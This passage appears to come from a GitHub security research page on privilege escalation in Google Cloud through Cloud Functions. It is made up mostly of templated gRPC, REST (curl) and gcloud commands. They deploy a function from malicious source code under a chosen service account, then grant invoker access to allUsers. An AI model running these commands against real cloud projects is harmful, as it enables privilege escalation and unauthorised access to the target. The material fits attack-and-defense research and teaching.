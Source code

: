 Command to [Deploy Cloud Function via Cloud Function API (gRPC)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-grpc):
```powershell
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function-name> --gsutil-uri <gs-link-of-malicious-sourcecode> --function-entry-point <entry-point> --service-account <sa-account> --deploy
```

Command to [Deploy Cloud Function via Cloud Function API (REST)](https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#deploying-a-cloud-function-via-cloud-function-api-rest):
```powershell
curl -X POST -H "Authorization: Bearer <token>" -H "Content-Type: application/json" -d "{\"name\":\"projects/<project-id>/locations/<region>/functions/<function-name>\",\"entryPoint\":\"<function-entrypoint>\",\"runtime\":\"python38\",\"serviceAccountEmail\":\"<service-account-email>\",\"sourceArchiveUrl\":\"<gs-link-of-malicious-sourcecode>\",\"httpsTrigger\":{}}" https://cloudfunctions.googleapis.com/v1/projects/<project-id>/locations/<region>/functions?alt=json
```

#### After Deploying the Function successfully, bind an IAM Policy to the Cloud Function so principals can Invoke it

Command to set an IAM Policy Binding to the Cloud Function via [gCloud](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-gcloud)

```powershell

# member:allUsers
gcloud functions add-iam-policy-binding <function-name> --region=<region> --member=allUsers --role=roles/cloudfunctions.invoker

# member:serviceAccount
gcloud functions add-iam-policy-binding <function-name> --region=<region> --member="serviceAccount:<service_account>" --role="roles/cloudfunctions.invoker"

```

Command to set an IAM Policy Binding to the Cloud Function via [Cloud Function API (gRPC)](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-cloud-function-api-grpc)

```powershell

# member:allUsers
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function> --setiambinding <principal>

# member:serviceAccount
py.exe .\main.py --project-id <project-id> --location <region> --function-name <function> --setiambinding allUsers
```

Command to set an IAM Policy Binding to the Cloud Function via [Cloud Function API (REST)](
https://github.com/anrbn/GCP-Attack-Defense/blob/main/research/Google Cloud/Cloud Function/PrivEsc-via-CloudFunction.md#setting-iam-policy-binding-to-the-cloud-function-via-cloud-function-api-rest)
